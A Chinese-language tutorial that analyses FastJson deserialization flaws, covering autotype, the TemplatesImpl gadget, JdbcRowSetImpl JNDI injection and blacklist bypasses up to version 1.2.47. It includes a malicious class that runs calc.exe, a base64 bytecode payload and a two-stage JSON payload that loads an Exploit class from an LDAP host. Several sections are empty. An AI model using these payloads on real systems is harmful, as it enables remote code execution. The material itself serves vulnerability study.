



# FastJson 反序列化
- [FastJson 反序列化](#fastjson-反序列化)
  - [前置知识](#前置知识)
    - [JAVA对象->Json](#java对象-json)
      - [序列化方法](#序列化方法)
    - [Json->JAVA对象](#json-java对象)
      - [自省](#自省)
      - [反序列化方法](#反序列化方法)
    - [利用思路](#利用思路)
      - [寻找利用类思路](#寻找利用类思路)
  - [Fastjson <= 1.2.24 利用思路](#fastjson--1224-利用思路)
    - [TemplatesImpl恶意类](#templatesimpl恶意类)
      - [利用分析](#利用分析)
    - [JNDI注入](#jndi注入)
      - [JdbcRowSetImpl类](#jdbcrowsetimpl类)
  - [关于CheckAutoType](#关于checkautotype)
  - [1.2.25-1.2.41 ByPass](#1225-1241-bypass)
  - [<=1.2.42 ByPass](#1242-bypass)
  - [<=1.2.47 ByPass](#1247-bypass)
    - [TypeUtils.getClassFromMappin](#typeutilsgetclassfrommappin)
    - [deserializers.findclass](#deserializersfindclass)
  - [实战利用](#实战利用)
  - [参考](#参考)
## 前置知识
### JAVA对象->Json
#### 序列化方法

* JSON.toJSONString:将一个java对象转化为JSON字符串.

```java
import com.alibaba.fastjson.JSON;

public class FastJsonDemo {
    public static void main(String[] args) {
         test test1= new test(20,"Fastjson","des");
         String jsonstring = JSON.toJSONString(test1);
         System.out.println(jsonstring);
    }
    public static class test{
         public int age;
         public String name;
         private String des;
        public void setAge(int age) {
            this.age = age;
            System.out.println("setAge");
        }
        public int getAge(){
            System.out.println("getage");
            return this.age;
        }
        public void get(){
            System.out.println("get");
        }
        public void getDes(){
            System.out.println("getDes");
        }
        public test(int age, String name,String des){
             this.age = age;
             this.name = name;
             this.des = des;
         }
    }
}
```

运行结果:

```
getage
{"age":20,"name":"Fastjson"}

Process finished with exit code 0
```

可以看出在将JAVA对象反序列化为JSON字符串时,只会序列化其`Public`成员,且会自动调用该成员的`get`方法.

### Json->JAVA对象

#### 自省

Json默认是不支持自省的,即JSON字符串只含有相关成员属性,并不包含相关对象的类型信息.

但FastJson是支持自省的,即在序列化时传入`SerializerFeature.WriteClassName`属性,得到的JSON字符串则包含了对象类型信息,即在JSON字符串中可以指定类,且在反序列化时会调用其`setter`,`getter`方法,也是造成漏洞的原因,因为必然在反序列化时也会根据其得到类,如果该类为恶意构造的类则会造成RCE.

在使用`toJSONString`时传入`SerializerFeature.WriteClassName`.

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class FastJsonDemo {
    public static void main(String[] args) {
         test test1= new test(20,"Fastjson","des");
         String jsonstring = JSON.toJSONString(test1, SerializerFeature.WriteClassName);//传入SerializerFeature.WriteClassName
         System.out.println(jsonstring);
    }
    public static class test{
         public int age;
         public String name;
         private String des;
        public void setAge(int age) {
            this.age = age;
            System.out.println("setAge");
        }
        public int getAge(){
            System.out.println("getage");
            return this.age;
        }
        public void get(){
            System.out.println("get");
        }
        public void getDes(){
            System.out.println("getDes");
        }
        public test(int age, String name,String des){
             this.age = age;
             this.name = name;
             this.des = des;
         }
    }
}
```

结果

```
getage
{"@type":"FastJsonDemo$test","age":20,"name":"Fastjson"}

Process finished with exit code 0
```

在@type属性中存储了类对象.

#### 反序列化方法

* 非自省方式(手动指定类):`parseObject(String text, Class<T> clazz)` ，构造方法 + `setter` + 满足条件额外的`getter`.
* 自省方式:`JSONObject parseObject(String text)`，构造方法 + `setter` + `getter` + 满足条件额外的`getter`.
* `parse(String text)`，构造方法 + `setter` + 满足条件额外的`getter`.

### 利用思路

fastjson提供特殊字符段`@type`，这个字段可以指定反序列化任意类，并且会自动调用类中属性的特定的set，get方法.

- @可以指定反序列化成服务器上的任意类.
- 然后服务端会解析这个类，提取出这个类中符合要求的setter方法与getter方法（如setxxx）.
- 如果传入json字符串的键值中存在这个值（如xxx)，就会去调用执行对应的setter、getter方法（即setxxx方法、getxxx方法.

#### 寻找利用类思路
1、类的成员变量我们可以控制；
2、想办法在调用类的某个set\get\is函数的时候造成命令执行。

## Fastjson <= 1.2.24 利用思路
### TemplatesImpl恶意类
利用条件: 

服务端使用`parseObject()`进行解析,且开启了`Feature.SupportNonPublicField`特性,因为默认情况下FastJson只会反序列化public的方法和属性,而该类的`_bytecodes`和`_name`为private属性,只有开启了该特性才能不受此限制.   
通过触发点JSON.parseObject()这个函数，将json中的类设置成`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`并通过特意构造达到命令执行.  

jdk版本1.7左右

#### 利用分析
在`TemplatesImpl`类中中有一个`_bytecodes`字段,部分函数会根据该字段来生成java的实例,从而可以通过该字段传入一个恶意的类,通过实例化该恶意类时来触发在静态代码块或构造函数中的恶意代码.  
**恶意类:**
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class test extends AbstractTranslet {

    public test() throws IOException {
        Runtime.getRuntime().exec("calc.exe");
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }

    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception {
        test t = new test();
    }
}
```
生成class文件后将内容base64编码放到`_bytecodes`字段,完整payload提交如下:
```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl", "__bytecodes": ["yv66vgAAADQANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMdGVzdDsBAApFeGNlcHRpb25zBwAsAQAJdHJhbnNmb3JtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACWhhRm5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALQEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAF0BwAuAQAKU291cmNlRmlsZQEACXRlc3QuamF2YQwACAAJBwAvDAAwADEBAAhjYWxjLmV4ZQwAMgAzAQAEdGVzdAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAAQAACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAACAAsAAAAOAAMAAAANAAQADgANAA8ADAAAAAwAAQAAAA4ADQAOAAAADwAAAAQAAQAQAAEAEQASAAEACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAATAAwAAAAqAAQAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAFQAWAAIAAAABABcAGAADAAEAEQAZAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAYAAwAAAAgAAMAAAABAA0ADgAAAAAAAQATABQAAQAAAAEAGgAbAAIADwAAAAQAAQAcAAkAHQAeAAIACgAAAEEAAgACAAAACbsABVm3AAZMsQAAAAIACwAAAAoAAgAAABsACAAcAAwAAAAWAAIAAAAJAB8AIAAAAAgAAQAhAA4AAQAPAAAABAABACIAAQAjAAAAAgAk"], "_name": "lightless", "_tfactory": { }, "_outputProperties":{ }}
```
在setValue处调用了反射,调用了我们设置的`_outputProperties`,而且之前会自动去掉前面的`_`后反射调用其get方法,也就是`getoutputProperties`方法,然后一路跟到`getTransletInstance()的`defineTransletClasses()对`_bytecodes`进行还原,然后进行实例化时触发RCE.具体参考`TemplatesImpl`利用链.  

1. 进行base64编码的原因是fastJson在处理_bytescodes时会自动进行base64解码.


### JNDI注入
因为第一种的利用方式需要开启相关支持特性,通用性不高.而利用JNDI注入则不受该限制,只受JDK版本限制.
#### JdbcRowSetImpl类
利用FastJson自动调用set和get方法的特性来调用JdbcRowSetImpl类的`SetAutoCommit`方法,而在该类的`SetAutoCommit`函数中会对变量`datasourceName`进行Lookup,从而造成JNDI注入.
## 关于CheckAutoType

CheckAutoType是针对在1.2.24后的补丁,在`DefaultJSONParser.class`的中增加了一个`config.checkAutoType`函数在实例化指定类时来进行过滤,思路即加入黑名单(denylist)和白名单(acceptlist,默认为空),对恶意类进行过滤,当反序列化的类名匹配到黑名单的类时即停止反序列化.


黑名单如下:



同时在1.2.25之后的版本Autotype功能是受限的所以同时增加了一个`AutoTypeSupport`属性,首先可以通过设置白名单的方式来设置可以被反序列化的类.

添加白名单有三种方式，三选一，如下:

1. 在代码中配置

```
ParserConfig.getGlobalInstance().addAccept("com.taobao.pac.client.sdk.dataobject."); 
```

如果有多个包名前缀，分多次addAccept

2. 加上JVM启动参数

```
    -Dfastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao. 
```

如果有多个包名前缀，用逗号隔开

3. 通过fastjson.properties文件配置。

在1.2.25/1.2.26版本支持通过类路径的fastjson.properties文件来配置，配置方式如下：

```
fastjson.parser.autoTypeAccept=com.taobao.pac.client.sdk.dataobject.,com.cainiao. // 如果有多个包名前缀，用逗号隔开
```

* 如果配置了safeMode，配置白名单也是不起作用的。

在白名单无法解决问题的时候可以选择再将AutoType功能打开,在该情况下使用的是黑名单(可以自己进行添加)进行防御,两种方法打开autotype，二选一，如下：

1. JVM启动参数

```
-Dfastjson.parser.autoTypeSupport=true
```

2. 代码中设置

```
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); 
```

如果有使用非全局ParserConfig则用另外调用setAutoTypeSupport(true).

[AutoType官方文档](https://github.com/alibaba/fastjson/wiki/enable_autotype)

在AutoType中的过滤顺序大致如下:

1. 如果开启了`AutoType`,进行白名单校验,如果匹配到白名单的类则直接返回该类,如果没有匹配到白名单则继续进行黑名单匹配,匹配到黑名单则抛出异常(开启白名单的情况下).

   

2. 在缓存中查找指定类,如果找到指定类则直接进行返回,其中有一处判断指定类是否继承于`expectClass`,但`expectClass`在`AutoType`调用时为空,即不用管该判断.

   

3. 在没有开启`AutoType`的情况下(也是默认情况),先进行黑名单检测,然后进行白名单检测,黑名单检测到即退出,白名单检测到即直接返回该类.

   

4. 检测指定类是否继承于`ClassLoder`和`DataSource`,如果是的话直接抛出异常.

   

5. 最后判断如果没有开启`AutoType`则直接抛出异常退出,不然则最终返回指定类实例.

   

## 1.2.25-1.2.41 ByPass

在1.2.24之后由于默认不支持`AutoType`了,ByPass都是在开启了`AutoType`的情况下进行的,主要是针对其黑名单进行绕过,因为在不开启的情况下,只有匹配到白名单的类才会进行实例化了,导致无法继续利用.

在FastJson获取实例类的使用的`TypeUtils.loadClass`方法中,有这么一段处理过程.


其中发现如果类名以`L`开头和`;`结尾的话则会将该两个字符去掉进行加载,即在类名前加一个`L`,结尾加`;`即可绕过之前的黑名单了.

即`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`变成`Lcom.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;`即可.

## <=1.2.42 ByPass

在1.2.42中继续对之前的ByPass进行了修复,修复的方式是删除指定前面的`L`和后面的`;`,并且将黑名单的名称使用对应的Hash进行替换.


当使用Hash匹配到`L`开头和`;`结尾的类名时对第一个`L`和最后一个`;`进行删除再继续执行,问题在于只删除了一次,所以在类名前面使用`LL`,结尾使用`;;`即可绕过.

## <=1.2.47 ByPass

在1.2.43版本对1.2.42进行了修复,修复方式是当匹配到类名第一个字符为`L`,最后一个字符为`;`时直接抛出异常.


因为这次的ByPass关键在于`checkAutoType`以下代码段,从该段代码得知,`clazz`可以有2个地方获取

* clazz = TypeUtils.getClassFromMapping(typename)
* clazz = this.deserializers.findclass(typename)



但在之前在开启`AutoType`的情况下还有一次黑名单的校验,但要同时满足缓存中没有该类才会抛出异常,即`TypeUtils.getClassFromMapping(typeName) == null`,这也是ByPass的一个关键点.


### TypeUtils.getClassFromMappin

首先来看第一次获取`clazz`跟进`TypeUtils.getClassFromMapping(typeName)`,里面直接返回了`mappings.get(className)`.


而`mapping`的定义如下.

这是一个空的HashMap,直接搜索其添加方法`put`方法,有两处地方调用了该map的添加方法.

其中一个为`addBaseClassMappings()`,但其参数不可控,忽略.

另一个为`loadClass`,引用该方法的地方中需要`cache`参数为`true`,且类名要可控,最后来到`fastjson.util.loadClass`.


而调用该`loadClass`的地方则在`MiscCodec.deserialze(DefaultJSONParser parser, Type clazz, Object fieldName)`.


下面来分析`MiscCodec.deserialze`.

从调用处可以看到`clazz`要是一个`Class.class`类型,倒序进行分析到达该处代码的条件.

```java
    public <T> T deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) {
        JSONLexer lexer = parser.lexer;
			...
            ...
			//对InetSocketAddress类型的处理,忽略.
        Object objVal;

        if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
            parser.resolveStatus = DefaultJSONParser.NONE;
            parser.accept(JSONToken.COMMA);
			//此处开始循环节点解析json字符串.
            if (lexer.token() == JSONToken.LITERAL_STRING) {
                if (!"val".equals(lexer.stringVal())) {//Json字符以val开头,不然抛出异常.
                    throw new JSONException("syntax error");
                }
                lexer.nextToken();
            } else {
                throw new JSONException("syntax error");
            }

            parser.accept(JSONToken.COLON);

            objVal = parser.parse();

            parser.accept(JSONToken.RBRACE);
        } else {
            objVal = parser.parse();
        }
		//总的来说,如果parser.resolveStatus == DefaultJSONParser.TypeNameRedirect,则必需要含有一个val开头的Json字段,如不不等于,则直接进行赋值objVal.
        String strVal;
        if (objVal == null) {//objval也不能为空,不然strVal为空后续则会return null.
            strVal = null;
        } else if (objVal instanceof String) {//所以只有一种情况,即objVal为String.
            strVal = (String) objVal;
        } else {//进入该分支后会return出去,不能进入该分支.
            if (objVal instanceof JSONObject) {
                JSONObject jsonObject = (JSONObject) objVal;

                if (clazz == Currency.class) {
                    String currency = jsonObject.getString("currency");
                    if (currency != null) {
                        return (T) Currency.getInstance(currency);
                    }

                    String symbol = jsonObject.getString("currencyCode");
                    if (symbol != null) {
                        return (T) Currency.getInstance(symbol);
                    }
                }

                if (clazz == Map.Entry.class) {
                   return (T) jsonObject.entrySet().iterator().next();
                }

                return jsonObject.toJavaObject(clazz);
            }
            throw new JSONException("expect string");
        }

        if (strVal == null || strVal.length() == 0) {//此处要strVal不为空.
            return null;
        }
		...
        ...//中间忽略一些针对不同clazz类型的判断.
        if (clazz == Class.class) {
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
        }
```

综合来说,要达到`TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());`即要`strVal`不为空,而`strVal`来源于`objVal`,所以要`strVal`不为空,而`objVal`的值来源于解析器parse解析,结合代码得知,需要含有一个以`val`开头的字段,其中的值即我们想要加入`mapping`的恶意类,而且该Json的`@type`中的类要为Class类型.

最后的payload如下,即可将`com.sun.rowset.JdbcRowSetImpl`加入缓存,这样在下一次`AutoType`遇到该类时则会直接返回该类,从而绕过之前的防护措施.

```
{
    "@type": "java.lang.Class", 
    "val": "com.sun.rowset.JdbcRowSetImpl"
}
```

有时候有负载均衡的情况,造成利用失败,所以将两次payload放到一起.

```
{
    "a": {
        "@": "java.lang.Class", 
        "val": "com.sun.rowset.JdbcRowSetImpl"
    }, 
    "b": {
        "@": "com.sun.rowset.JdbcRowSetImpl", 
        "dataSourceName": "ldap://localhost:1389/Exploit", 
        "autoCommit": true
    }
}
```

**总结:**

该次绕过主要是利用一个缓存机制,FastJson为了提高运行效率,在`AutoType`进行过滤的时候,会先从缓存中去寻找指定类,如果有的话则会直接返回该类而不进行后续操作,从而ByPass.

### deserializers.findclass

该方法中主要是存放一些常用的类进行缓存,不可控,忽略.

**修复:**

在`TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());`处直接设置了`cache`为False.


## 实战利用

## 参考

https://www.cnblogs.com/sijidou/p/13121332.html

https://www.freebuf.com/vuls/208339.html

https://xz.aliyun.com/t/7027

https://xz.aliyun.com/t/7846